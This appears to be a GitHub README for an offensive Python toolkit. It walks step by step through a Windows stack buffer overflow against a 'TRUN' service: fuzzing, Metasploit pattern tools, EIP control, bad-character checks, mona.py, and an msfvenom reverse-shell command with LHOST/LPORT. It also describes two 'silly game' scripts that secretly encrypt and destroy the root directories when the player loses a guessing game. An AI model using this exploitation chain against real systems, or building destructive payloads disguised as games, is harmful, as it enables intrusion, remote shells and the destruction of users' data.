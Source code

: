 # Fun with Exploitation <br />
![Screenshot 2024-04-19 084402](https://github.com/FishyStix12/WHPython_v1.02/assets/102126354/173dc5be-6bb2-4549-9a10-593cc51296e3) <br />
**XtremeGui.py** <br />
**Important Note: Please use statrun.spk in the following syntax - `generic_send_tcp <Target IP> <Target Port> statrun.spk SKIPVAR SKIPSTR`**

**Important Note: After running fuzzywuzzy.py run this command in linux to create the random bytes of data: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb <byte size>`, then run the WIns_overflow.py script with these randomly generated bytes to cause a buffer overflow in the stack, then record the random bytes that have overwritten the target EIP Register, and find the offset of those bytes. Then run the following command to find the exact offset of the random bytes in the EIP register: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337`. Then run the WIns_OvrWrte.py script to check whether or not you can control the EIP registar. (Which we will know if the EIP Registar is overwritten with 4 Ds (Which is an ASCII value of 44). Then run the script with the sketchcharacters.py script to send badchars along with the shellcode. Then in immunity debugger click on the ESP register value and click follow in dump to see if any of the badchars create any problems in the shellcode. If there are no found errors with the badchars then use mona.py modules in Immunity Debugger to see the protection settings of various modules (Signified by Falses). Then use the WIn_Jump.py to send the x86 architecture stores values in the Little Endian format for the Return Address of the vulnerable Modules to the target EIP Registar. Then run `msfvenom -p <payload> (ex: windows/shell_reverse_tcp) LHOST=<IP address> LPORT=<port> EXITFUNC=thread -f <file type> (ex: c) -a <architecture> (ex: x86) -b <bad characters> (ex: “\x00”)`. Then run the WIn_shellcode.py script to inject the generated shellcode into the EIP register and exploit the target vulnerable server. For more information please use the link below: <br />
https://infosecwriteups.com/exploiting-a-windows-based-buffer-overflow-e4d1b6f6d5fb <br />
**The Following List gives a short description of all the scripts in this group:** <br />
1. WIns_overflow.py - This script is designed to send a custom payload to a specified target over a TCP connection. It prompts the user for a pattern to be sent, the target's IPv4 address, and the target's TCP port. The script then attempts to create a socket connection to the target using the provided address and port. If the connection is successful, it sends the user-provided pattern as part of a 'TRUN /.:/' command. If any errors occur during this process, the script catches the exception, prints an error message, and exits with a non-zero status, indicating that an error has occurred. The improvements include ensuring the message is properly encoded, correctly closing the socket, and providing detailed error messages for better debugging. <br />
2. XtremeGame.py - This is an Extremely Silly Game, play at your own risks! <br />
3. XtremeGame2.py - The Extremely Silly Game 2 is a simple number guessing game that asks the user to guess a random number between 1 and 10. If the user's guess is correct, they win the game and a congratulatory message is displayed. If the user's guess is incorrect, they lose the game and a message is displayed indicating that they have lost. In the event of a loss, the game then proceeds to encrypt the root directories and all of their subdirectories and files on the host system using the AES encryption algorithm with a key derived from a predefined password and a salt value. This is done using the cryptography library in Python. The encryption process overwrites all files in the specified directories with their encrypted contents, effectively destroying the original data. It is important to note that this is a destructive and dangerous operation that should only be performed in a controlled and safe environment, as it can cause serious damage to the operating system and potentially render the system unusable. <br />
4. XtremeGui.py - This script is a simple number guessing game implemented in Python using the Tkinter library for the graphical user interface. The game generates a random number between 1 and 10 and prompts the user to guess the number. If the user's guess is correct, the game prints a congratulatory message. If the guess is incorrect, the game prints a message indicating that the user has lost and calls a function to encrypt the root directories and all its subdirectories and files using the cryptography library. The game can be started by clicking a "Start Game" button. The game also includes error handling to ensure that the user's input is valid before trying to convert it to an integer. <br />
5. WIns_OvrWrte.py - is a program that interacts with a network service by sending a custom payload to a specified target. It begins by prompting the user to input two characters and their corresponding multipliers, which are used to construct a pattern called `shellcode`. The script then asks for the target's IPv4 address and TCP port number. Using this information, it creates a TCP socket connection to the target and sends the payload. If the connection attempt fails or if any input errors occur, appropriate error messages are displayed, and the script exits with a non-zero status to indicate failure. The script includes improved readability, specific exception handling, and detailed inline comments to aid understanding. <br />